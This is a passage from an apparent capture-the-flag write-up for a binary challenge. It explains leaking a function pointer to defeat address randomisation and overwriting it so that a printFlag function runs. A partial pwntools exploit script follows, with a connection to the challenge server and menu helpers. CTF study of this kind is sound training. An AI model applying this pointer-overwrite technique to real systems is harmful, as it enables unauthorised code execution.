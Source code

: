First, we need to leak from it. To do so, we can simply use the show option. This prints both the name (which contains random numbers) and the number saved in the entry, which is the function pointer pointing to `generateRandNum`. With this leak, we can de-randomize the binary loading address.

We can now use the edit functionality to change the function pointer to `generateRandomNum` to the `printFlag` function.
When requesting a random number, `printFlag` will now be called instead.

Script:

```py
#!/usr/bin/env python3

from pwn import *

HOST = "cha.hackpack.club"
PORT = 41705

exe = ELF("./chal")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]
io = None


def conn(*a, **kw):
    if args.LOCAL:
        return process([exe.path], **kw)
    elif args.GDB:
        return gdb.debug([exe.path], gdbscript=gdbscript, **kw)
    else:
        return remote(HOST, PORT, **kw)


io = conn(level="debug")


def store(idx, name, number=b"123"):
    io.sendlineafter(b"Choose option: ", b"1")
    io.sendlineafter(b"Enter index of new number (0-9): ", str(idx).encode())
    io.sendlineafter(b"Enter object name: ", name)
    io.sendlineafter(b"Enter number: ", number)


def delete(idx):
    io.sendlineafter(b"Choose option: ", b"2")
    io.sendlineafter(b"Enter index of number to delete (0-9): ", str(idx).encode())


def edit(idx, number):
    io.sendlineafter(b"Choose option: ", b"3")
    io.sendlineafter(b"Enter index of number to edit (0-9): ", str(idx).encode())
    io.sendlineafter(b"Enter new number: ", number)


def show(idx):
    io.sendlineafter(b"Choose option: ", b"4")
    io.sendlineafter(b"Select index of number to print (0-9): ", str(idx).encode())
    return io.recvlines(2, keepends=False)


def rand():
    io.sendlineafter(b"Choose option: ", b"6")

```